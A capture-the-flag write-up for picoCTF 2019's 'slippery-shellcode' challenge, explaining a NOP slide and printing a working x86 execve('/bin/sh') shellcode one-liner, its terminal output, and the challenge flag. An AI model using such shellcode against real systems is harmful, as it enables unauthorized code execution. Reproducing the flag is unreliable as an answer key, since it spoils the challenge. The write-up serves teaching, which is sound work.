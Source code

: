 # slippery-shellcode
#### This [program](https://2019shell1.picoctf.com/static/2ea6c02873caad85c8b9f9cb1c704bef/vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_3_68613021756bf004b625d7b414243cd8 on the shell server. [Source](https://2019shell1.picoctf.com/static/2ea6c02873caad85c8b9f9cb1c704bef/vuln.c).

Looking at the source code we see that the code executes the shellcode from a random location. To bypass this we can use a [nop slide](https://en.wikipedia.org/wiki/NOP_slide).
A nop slide allows us to ignore the starting location by having the program start at a nop and slide to our shell code. It doesn't matter where the code starts executing because
it will end at the same place. To do this we can use the same shellcode used in [handy-shellcode](https://github.com/Supermac30/PicoCTF-2019/tree/master/Binary%20Exploitation/handy-shellcode), 
add a lot of NOPs as padding, which in intel x86 is 0x90, and use cat to keep the shell open.

```
Supermac30@pico-2019-shell1:/problems/slippery-shellcode_3_68613021756bf004b625d7b414243cd8$ (python -c 'print "\x90"*300+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';cat) | ./vuln
Enter your shellcode:
��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S��
                                                                                  ̀
Thanks! Executing from a random location now...
cat flag.txt
picoCTF{sl1pp3ry_sh311c0d3_de21cb07}
```

Flag: picoCTF{sl1pp3ry_sh311c0d3_de21cb07}
